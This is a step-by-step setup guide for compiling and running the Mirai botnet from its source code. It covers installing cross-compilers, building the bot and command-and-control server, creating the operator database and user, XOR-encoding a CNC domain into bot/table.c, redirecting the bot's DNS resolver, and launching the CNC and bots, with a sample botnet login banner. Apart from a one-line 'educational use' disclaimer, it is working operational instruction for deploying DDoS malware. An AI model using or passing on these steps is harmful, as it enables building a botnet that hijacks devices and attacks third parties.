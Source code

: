# Mirai setup

## What you need:
- Working pihole setup
- Ubuntu / Debian based linux distribution (tested on elementary os)
- Copy of mirai source code

## What we will do
The goal is to setup and run mirai in an local environment.  
But a disclaimer at the beginning: Do not use this to actually attack somebody its only for educational use.
<br><br>

## Setup tools
### First we need to install some packages  

```
sudo apt install gcc golang electric-fence mysql-server mysql-client screen -y
```
<br>

### The next step is to install the cross compilers
```
sudo bash ./tools/compilers.sh
```
To finish the installation put following at the end of /etc/bash.bashrc or ~/.bashrc
```
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
```
<br>

Now we need to edit /etc/bash.bashrc or ~/.bashrc again. Put the following at the end
```
export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/Documents/go
```
<br>

**Now please restart your bash for those changes to take effect**
<br>

### Now we install the go library's with
```
go get github.com/go-sql-driver/mysql
go get github.com/mattn/go-shellwords
```
<br>

### Now we can compile it for the first time :D
```
mkdir debug
bash ./build.sh debug telnet
```
<br>

### Now we need to setup the database.
First of all run and make sure to allow root login and don't forget the password we will need it later:
```
sudo mysql_secure_installation
```
Now run:
```
sudo mysql

Then type:

ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'insert_password';
exit;
```
Now test it with:
```
sudo mysql -p

If you see this your installation was successfully:

Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 19
Server version: 5.7.33-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>

Now type 'exit;' again to exit mysql!
```

Now it's time to create the database run:
```
cat ./tools/db.sql | sudo mysql -p
```

The last step of creating the database is to add an cnc user account:
```
sudo mysql -p

Then type:

INSERT INTO users VALUES (NULL, 'insert-mirai-user', 'insert-mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
```
<br>

### Now we need to change some settings we will begin with the domain.  
You can use whatever domain you like we will register it later using piole.
```
./debug/enc string <your domain>

Exampel output:

root@janick:~/mirai# ./debug/enc string cnc.glowman554.de
XOR'ing 18 bytes of data...
\x41\x4C\x41\x0C\x45\x4E\x4D\x55\x4F\x43\x4C\x17\x17\x16\x0C\x46\x47\x22
```
We need the 18 and '\x41\x4C\x41\x0C\x45\x4E\x4D\x55\x4F\x43\x4C\x17\x17\x16\x0C\x46\x47\x22'
<br>

Now open bot/table.c in your favorite code editor and find the line 
```
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30);

In my case i need to change it to:

add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x45\x4E\x4D\x55\x4F\x43\x4C\x17\x17\x16\x0C\x46\x47\x22", 18);
```

Now open bot/resolv.c favorite code editor and find the line and change the ip to the ip of your pihole installation
```
addr.sin_addr.s_addr = INET_ADDR(8,8,8,8);

In my case i need to change it to:

addr.sin_addr.s_addr = INET_ADDR(192, 168, 178, 114);
```
<br>

### Now we can compile it for the second time :D and copy the prompt.txt file
```
bash ./build.sh debug telnet
cp prompt.txt ./debug/.
```

### Now its time to setup pihole
To do this you need to login into pihole and go to Local DNS/DNS Records and type in the domain you used earlier in this tutorial and the ip of the server where the cnc is supposed to run on. **Don't forget to click on add!**
<br>

### And finlay we can run it!
To run the cnc use:
```
cd debug
screen -S mirai-cnc sudo ./cnc
```
<br>

To run a bot use:
```
cd debug
screen -S mirai-bot sudo ./mirai.dbd
```

To connect to the cnc using telnet use:
```
telnet localhost

You will be asked to login you can do that with the user we inserted earlier into the database it should look something like:

я люблю куриные наггетсы
пользователь: janick
пароль: *********

проверив счета... |
[+] DDOS | Succesfully hijacked connection
[+] DDOS | Masking connection from utmp+wtmp...
[+] DDOS | Hiding from netstat...
[+] DDOS | Removing all traces of LD_PRELOAD...
[+] DDOS | Wiping env libc.poison.so.1
[+] DDOS | Wiping env libc.poison.so.2
[+] DDOS | Wiping env libc.poison.so.3
[+] DDOS | Wiping env libc.poison.so.4
[+] DDOS | Setting up virtual terminal...
[!] Sharing access IS prohibited!
[!] Do NOT share your credentials!
Ready
janick@botnet#
```
